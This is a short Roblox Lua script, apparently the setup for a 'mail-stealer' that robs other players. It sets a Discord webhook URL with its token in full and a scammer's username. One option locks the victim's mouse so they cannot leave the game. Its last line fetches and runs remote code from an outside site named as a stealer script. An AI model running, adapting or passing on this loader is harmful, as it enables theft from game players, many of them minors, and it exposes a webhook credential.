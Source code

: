 getgenv().webhook = "https://discord.com/api/webhooks/1084164838432968704/ge_lettY1Ixi10JpAJHVs3yTPHaP8HQCb5wcW0s6vc8ETusn_nq6ehnNHaNYoOAtGfRI" -- replace it with your webhook
getgenv().name = "Kazaman_lol" -- replace bigscammer8 with your username
getgenv().mouselock = true -- change this to true if you want the victims mouse to be locked in one place so he cant exit out of roblox etc
loadstring(game:HttpGetAsync("https://wumat.xyz/scripts/mail-stealer.lua", true))() 
